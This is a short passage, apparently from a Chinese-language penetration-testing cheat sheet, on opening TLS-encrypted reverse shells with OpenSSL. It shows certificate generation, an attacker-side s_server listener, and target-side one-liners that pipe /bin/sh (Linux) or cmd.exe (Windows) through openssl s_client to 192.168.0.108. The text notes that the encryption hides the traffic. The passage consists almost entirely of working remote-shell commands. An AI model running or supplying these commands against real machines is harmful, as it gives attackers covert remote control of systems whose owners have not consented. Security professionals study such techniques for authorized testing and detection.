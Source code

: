 	生成证书
	>openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes
![image](img/189.png)
  #### Linux
	监听
	>openssl s_server -quiet -key key.pem -cert cert.pem -port 1337
![image](img/190.png)

	靶机执行
	>mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 192.168.0.108:1337 > /tmp/s; rm /tmp/s
![image](img/191.png)

	此方式使用TLS1.2 协议对通信进行加密
  #### Windows
	攻击机需监听2个端口，一个端口发送命令，一个端口接收回显
	发送
	>openssl s_server -quiet -key key.pem -cert cert.pem -port 1337
	接收
	>openssl s_server -quiet -key key.pem -cert cert.pem -port 1338
	靶机执行
	>openssl s_client -quiet -connect 192.168.0.108:1337|cmd.exe|openssl s_client -quiet -connect 192.168.0.108:1338
![image](img/192.png)
![image](img/193.png)
![image](img/194.png)